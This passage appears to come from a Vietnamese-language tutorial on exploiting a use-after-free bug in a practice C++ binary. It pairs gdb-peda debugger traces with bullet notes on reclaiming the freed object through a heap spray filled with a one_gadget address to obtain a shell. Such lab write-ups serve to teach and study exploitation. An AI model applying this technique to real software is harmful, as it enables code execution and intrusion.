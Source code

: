 ```nasm
   0x400c02 <_ZN3UAF6targetEv+16>:    add    rax,0x8
   0x400c06 <_ZN3UAF6targetEv+20>:    mov    rdi,rax
   0x400c09 <_ZN3UAF6targetEv+23>:    call   0x400860 <strlen@plt>
   0x400c0e <_ZN3UAF6targetEv+28>:    mov    rdx,rax
   0x400c11 <_ZN3UAF6targetEv+31>:    mov    rax,QWORD PTR [rbp-0x8]
gdb-peda$ c
Continuing.
```
-	lỗi UAF bắt đầu như sau
	-	nếu UAF class bị xóa và sau đó lại được allocate cùng size với UAF class dùng `HeapSpray()`, thì lúc lỗi UAF xuất hiện
-	nói cách khác, có thể lấy được shell thông qua UAF.
	-	fill vùng nhớ heap với one_gadget bằng heap spray
	-	sau đó, vùng nhớ bị spray đó có thể hiểu là vùng nhớ được allocate cho lỗi UAF
	-	vì lí do này, dòng `uaf->target()` ngầm hiểu one_gadget như là địa chỉ của `target()` và sẽ execute one_gadget lưu tại heap spray đó.
```nasm

Breakpoint 2, 0x0000000000400b58 in main ()
gdb-peda$ i r rdi
rdi            0x6150a0 0x6150a0
gdb-peda$ c
Continuing.
UAF!
Input size:
100
Input contents:
 
 
Breakpoint 3, 0x0000000000400a26 in heapSpray() ()
gdb-peda$ i r rdi
rdi            0xa303031    0xa303031
gdb-peda$ set $rdi = 100
gdb-peda$ ni
 
0x0000000000400a2b in heapSpray() ()
gdb-peda$ i r rax
rax            0x6150a0 0x6150a0
gdb-peda$ x/10gx 0x6150a0
0x6150a0:   0x0000000000400d40  0x0000000000000000
0x6150b0:   0x0000000000000000  0x0000000000000000
0x6150c0:   0x0000000000000000  0x0000000000000000
0x6150d0:   0x0000000000000000  0x0000000000000000
0x6150e0:   0x0000000000000000  0x0000000000000000
gdb-peda$ c
Continuing.
 
Breakpoint 4, 0x0000000000400a41 in heapSpray() ()
gdb-peda$ i r rdi
rdi            0x0  0x0
gdb-peda$ i r rsi
rsi            0x6150a0 0x6150a0
gdb-peda$ ni
AAAABBBB
 
0x0000000000400a46 in heapSpray() ()
gdb-peda$ x/10gx 0x6150a0
0x6150a0:   0x4242424241414141  0x000000000000000a
0x6150b0:   0x0000000000000000  0x0000000000000000
0x6150c0:   0x0000000000000000  0x0000000000000000
0x6150d0:   0x0000000000000000  0x0000000000000000
0x6150e0:   0x0000000000000000  0x0000000000000000
gdb-peda$
```